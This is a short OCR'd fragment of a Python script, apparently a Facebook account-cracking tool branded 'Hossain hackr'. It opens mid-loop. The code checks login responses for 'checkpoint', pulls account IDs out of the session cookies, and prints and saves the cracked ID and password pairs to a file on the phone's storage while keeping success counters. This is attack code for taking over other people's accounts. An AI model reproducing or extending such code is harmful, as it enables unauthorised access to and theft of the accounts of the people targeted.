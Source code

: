                 break

            elif 'checkpoint' in log_cookies:

                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

                cid = coki[24:39]

                print('    \33[1;30m[Hossain hackr-CP] ' +cid+ ' | ' +ps+           '  \33[0;97m')

                open('/sdcard/Hossain hackr-CP.txt', 'a').write( cid+' | '+ps+' \n')

                cps.append(cid)

                break

            else:

                continue

        loop+=1

        sys.stdout.write(' %s[Hossain hackr] [%s/%s]  OK:- %s  CP:- %s \r'%(H,loop,tl,len(oks),len(cps))),

        sys.stdout.flush()

    except:

        pass

ud()![images](https://github.com/Hasan-vai/-Hasan.py/assets/136159607/b2508e46-4135-4631-ab12-b865a6b5aafc)
